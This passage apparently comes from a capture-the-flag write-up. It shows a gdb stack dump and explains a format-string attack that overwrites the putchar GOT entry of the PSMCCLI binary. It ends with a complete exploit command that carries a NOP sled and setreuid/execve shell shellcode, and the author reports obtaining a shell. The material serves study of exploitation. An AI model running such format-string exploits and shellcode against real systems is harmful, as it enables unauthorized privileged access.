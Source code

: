 ```gdb  
0xbffff9c0: 0xbffffaa40000000a 0x080484a7b7ffed00  
0xbffff9d0: 0x0000000000000000 0x08048530bffff9f8  
0xbffff9e0: 0xbffffaa4bffffb97 0x080484f8bffffab0  
0xbffff9f0: 0x00000000bffffa10 0xb7e2f28600000000  
0xbffffa00: 0xb7fca00000000002 0xb7e2f28600000000  
0xbffffa10: 0xbffffaa400000002 0x00000000bffffab0  
0xbffffa20: 0x0000000000000000 0xb7fffc0cb7fca000  
0xbffffa30: 0x00000000b7fff000 0xb7fca00000000002  
0xbffffa40: 0x670b46a800000000 0x000000005d1beab8  
0xbffffa50: 0x0000000000000000 0x080483a000000002  
0xbffffa60: 0xb7ff071000000000 0xb7fff000b7e2f199  
0xbffffa70: 0x080483a000000002 0x080483c100000000  
0xbffffa80: 0x00000002080484e4 0x08048550bffffaa4  
0xbffffa90: 0xb7feb070080485b0 0xb7fff920bffffa9c  
0xbffffaa0: 0xbffffb8000000002 0x00000000bffffb97  
0xbffffab0: 0xbfffffb4bfffffa8 0xbfffffdcbfffffc0  
0xbffffac0: 0x0000002000000000 0x00000021b7fd9cd0  
0xbffffad0: 0x00000010b7fd9000 0x000000060fabfbff  
0xbffffae0: 0x0000001100001000 0x0000000300000064  
0xbffffaf0: 0x0000000408048034 0x0000000500000020  
0xbffffb00: 0x0000000700000009 0x00000008b7fdb000  
0xbffffb10: 0x0000000900000000 0x0000000b080483a0  
0xbffffb20: 0x0000000c000003ea 0x0000000d000003ea  
0xbffffb30: 0x0000000e000003ea 0x00000017000003ea  
0xbffffb40: 0x0000001900000000 0x0000001fbffffb6b  
0xbffffb50: 0x0000000fbfffffe5 0x00000000bffffb7b  
0xbffffb60: 0x0000000000000000 0xb3e7f8a81b000000  
0xbffffb70: 0xa2c230e852ebcc7f 0x00363836696a2918  
0xbffffb80: 0x636f6c2f7273752f 0x502f6e69622f6c61  
0xbffffb90: 0x4100494c43434d53 0x2542424242414141  
0xbffffba0: 0x7830303030303030 0x2578302432333125  
0xbffffbb0: 0x7830303030303030 0x9078302433333125  
0xbffffbc0: 0x9090909090909090 0x9090909090909090  
0xbffffbd0: 0x9090909090909090 0x9090909090909090  
0xbffffbe0: 0x9090909090909090 0x9090909090909090  
0xbffffbf0: 0x9090909090909090 0x9090909090909090  
0xbffffc00: 0x9090909090909090 0x9090909090909090  
0xbffffc10: 0x9090909090909090 0x9090909090909090  
0xbffffc20: 0x9090909090909090 0x9090909090909090  
0xbffffc30: 0x9090909090909090 0x9090909090909090  
0xbffffc40: 0x9090909090909090 0x9090909090909090  
0xbffffc50: 0x9090909090909090 0x9090909090909090  
0xbffffc60: 0x9090909090909090 0x9090909090909090  
0xbffffc70: 0x9090909090909090 0x9090909090909090  
0xbffffc80: 0x9090909090909090 0x9090909090909090  
0xbffffc90: 0x9090909090909090 0x9090909090909090  
---Type <return> to continue, or q <return> to quit---  
0xbffffca0: 0x9090909090909090 0x9090909090909090  
0xbffffcb0: 0x9090909090909090 0x9090909090909090  
0xbffffcc0: 0x9090909090909090 0x9090909090909090  
0xbffffcd0: 0x9090909090909090 0x9090909090909090  
```  
We see that the address of the nopsled within the stack, so honestly, any address within it works fine but I ended up choosing `0xbffffc78`.  We write this in two instances to the address `0x0804a01c` which is our `putchar` GOT address.  Once `putchar` is called after `printf`, an address to our shellcode will be in the GOT and executed.
```bash  
./invoke /usr/local/bin/PSMCCLI $(python -c 'import sys; sys.stdout.write("\x1e\xa0\x04\x08\x1c\xa0\x04\x08%0049143x%119$hn%0015481x%120$hn"+"\x90"*961+"\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')  
```  
I've snipped out the printed junk data, but suffice to say we receive a shell!
```bash  
```